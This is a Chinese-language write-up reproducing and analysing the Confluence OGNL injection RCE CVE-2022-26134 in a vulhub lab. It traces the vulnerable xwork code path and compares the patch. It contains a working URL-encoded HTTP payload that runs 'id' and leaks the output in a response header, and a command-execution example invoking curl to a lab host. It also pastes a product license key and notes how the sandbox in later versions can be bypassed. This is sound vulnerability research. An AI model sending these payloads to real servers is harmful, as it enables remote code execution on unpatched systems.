 ```yaml
---
sidebar_position: 1
tags: [CVE, Confluence, Deserialization]
---
```


# CVE-2022-26134 Confluence OGNL RCE 复现分析

## 0x00 环境

用的[vulhub](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2022-26134/README.zh-cn.md)，版本 7.13.6，[源码下载](https://www.atlassian.com/software/confluence/download-archives)

xwork.jar 选用了 xwork-1.0.3.6.jar、xwork-1.0.3-atlassian-8.jar，以及漏洞修复后的xwork-1.0.3-atlassian-10.jar进行对比分析。

```
docker exec -it 0f1a832c4088 /bin/bash
cd /opt/atlassian/confluence/bin
```

修改setenv.sh，添加调试端口，在末尾 export CATALINA_OPTS 前添加

```
CATALINA_OPTS="-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 ${CATALINA_OPTS}"
```

重新启动

```
docker-compose restart
```

访问 http://127.0.0.1:8090/

去拿一个授权码，之后就是一直点点点了

```
AAABkA0ODAoPeNp1kV1r2zAUhu/1Kwy72Sju5K+kDQiWSt6S4iRL7WYf5EbWjhszWzaSlSz79ZPth
m5jAwmkc+B9z/ucV6mRzr29OHJ8bxZOZoHvUJY5PvZ99B3OO1C6bCTxJhhP8U0QeIg2suOiW/MaS
HuSbduGt++eal5W16KpkWhkcW375RFIpwygj0aJA9fAeAek13XxxB6UlAKkhvhHW6rzb81p33w2i
VdW9l8uKagjqCUjd9nXz+4uSHbubbQNXIyzBapG5QXXB7KiJ/p+YbZMTHbs2wdaR0H+86rOHos18
75cvZ0fHu7iZhlGB5Ef5yLT7NQm5ryl4adtPt+TPRkT2QE5BdmBGlOlJtdClW3X0xkqdlTbllyK/
2QadNamzkFtikdtyRLXG6tpx1UvXfBKw4WMTZcsWRqv3cS7Cf0pjgJkf+TPykY9cVlqPgzCqxJRB
cPnb96D0bN0dm5hWCDdrFbxA13Okwu1y8Z9xOAlod1HURmw2ZzXPQpnZPFmP3PiI6/M4IheniOSX
2AIxtAwLAIUTh0WdIbrFZLWB/pwIYgXS5n2I5kCFBJAncuiVFmGaGI56ZVa7b/VTO2FX02jb
```

重启之后如果浏览器访问发现出现Unable to bootstrap application: failed to find config at: /var/atlassian/application-data/confluence/confluence.cfg.xml

```bash
cd /var/atlassian/application-data
ls
chown -R confluence.confluence confluence
再重启服务

```

提取 confluence 文件夹进行分析

## 0x01 复现

payload

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: 172.23.80.1:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![image-20220606142643188](CVE-2022-26134.assets/image-20220606142643188.png)

## 0x02 补丁

https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

官方解决方案都是围绕 xwork.jar 进行

![image-20220608013111486](CVE-2022-26134.assets/image-20220608013111486.png)

比较一下会发现对 namespace 和 actionName 取值时不再调用 TextParseUtil#translateVariables() 方法，下文可重点关注这里。

![image-20220608013146315](CVE-2022-26134.assets/image-20220608013146315.png)



## 0x03 分析

### 正常流程 - login.action为例

对于 .action 的请求，再经过 Filter 处理后，最终来到com.opensymphony.webwork.dispatcher.ServletDispatcher#service() 进行处理

![image-20220607104656566](CVE-2022-26134.assets/image-20220607104656566.png)

其中的 serviceAction() 方法在 com.atlassian.confluence.servlet.ConfluenceServletDispatcher#serviceAction() 中被重写，在传入参数前调用了`this.getNameSpace(request), this.getActionName(request), this.getRequestMap(request), this.getParameterMap(request), this.getSessionMap(request), this.getApplicationMap()` 分别获取请求的相应参数，最后实例化 DefaultActionProxy 类并调用其 execute() 

![image-20220607103356588](CVE-2022-26134.assets/image-20220607103356588.png)

这里这个地方就是本次漏洞的产生关键，该方法在 xwork-1.0.3.6.jar 中实现，在这里调用了DefaultActionInvocation#invoke()

![image-20220607110334451](CVE-2022-26134.assets/image-20220607110334451.png)

在 invoke() 中，执行前会先调用拦截器，这里使用的版本是 7.13.6 所以只有28个，高版本中更多。并且会逐个调用其 intercept() 方法

![image-20220607112008443](CVE-2022-26134.assets/image-20220607112008443.png)

分析其中的一些拦截器，SecurityHeadersInterceptor#intercept() 以这种形式继续迭代

![image-20220607112241781](CVE-2022-26134.assets/image-20220607112241781.png)

但对于其中特殊的拦截器，如 ConfluenceAccessInterceptor#intercept() 中存在判断，满足条件时将跳出迭代。

![image-20220607112642137](CVE-2022-26134.assets/image-20220607112642137.png)

继续分析 isAccessPermitted() 的判断，就是对请求中的 *.action 和 methodName 进行判断，这里账号密码正确，返回为true继续迭代

![image-20220607113733762](CVE-2022-26134.assets/image-20220607113733762.png)

因此当访问无权限 *.action 时将跳出迭代，继续分析

### 无权限访问 - browsepeople.action为例

判断为无权

![image-20220607115116244](CVE-2022-26134.assets/image-20220607115116244.png)

这时候在 DefaultActionInvocation 中将不会继续迭代，而是执行 executeResult() 

![image-20220607115341440](CVE-2022-26134.assets/image-20220607115341440.png)

继续跟进将调用 com.opensymphony.xwork.ActionChainResult#execute()

![image-20220607115528879](CVE-2022-26134.assets/image-20220607115528879.png)

提取 namespace 和 actionName 参数，传入 TextParseUtil#translateVariables() 中处理

![image-20220607115927836](CVE-2022-26134.assets/image-20220607115927836.png)

继续跟进 ，满足正则表达式`\\$\\{([^}]*)\\}`判断后，就是一个典型的 ognl 表达式解析

![image-20220607140227213](CVE-2022-26134.assets/image-20220607140227213.png)

![image-20220607135122348](CVE-2022-26134.assets/image-20220607135122348.png)

明确了漏洞ognl注入点后，返回去寻找最开始分析时 namespace 的构造方式

### namespace 构建

从这里可以看到，namespace 其实就是取最后一个 / 之前的那个路径

![image-20220607135656558](CVE-2022-26134.assets/image-20220607135656558.png)

![image-20220607135725739](CVE-2022-26134.assets/image-20220607135725739.png)

尝试 ognl 快乐payload`${2*2}`

![image-20220607140601847](CVE-2022-26134.assets/image-20220607140601847.png)

命令执行 `/${@java.lang.Runtime@getRuntime().exec('curl 172.26.0.1:7777')}/`

![image-20220607141052397](CVE-2022-26134.assets/image-20220607141052397.png)

### 高版本fiindValue() 沙箱绕过

在 7.13.6 中的实现是没有做安全校验的

![image-20220607141418721](CVE-2022-26134.assets/image-20220607141418721.png)

对于7.15.X及以上版本则存在沙箱

![image-20220607142205916](CVE-2022-26134.assets/image-20220607142205916.png)

由于 confluence 是基于 struts2 开发的，对于黑名单过滤的类，可以通过字符串拼接、字节码加载、反射等手段来绕过。本质上黑名单类就是套用的 [struts2 在struts-default.xml](https://github.com/apache/struts/blob/master/core/src/main/resources/struts-default.xml) 中的定义，只不过这里 SafeExpressionUtil#containsUnsafeExpression 也对成员方法进行了过滤，目前网上流传的黑白名单大致看了下也涵盖在里面，直接贴出来就不与 struts2 的定义作比较了。

![image-20220608011322001](CVE-2022-26134.assets/image-20220608011322001.png)

![image-20220608013645974](CVE-2022-26134.assets/image-20220608013645974.png)

目前网上流传的黑名单列表和白名单如下：

黑名单

![image-20220608010925387](CVE-2022-26134.assets/image-20220608010925387.png)

![image-20220608010950361](CVE-2022-26134.assets/image-20220608010950361.png)

![image-20220608011001177](CVE-2022-26134.assets/image-20220608011001177.png)

![image-20220608011014900](CVE-2022-26134.assets/image-20220608011014900.png)

白名单

![image-20220608011040311](CVE-2022-26134.assets/image-20220608011040311.png)
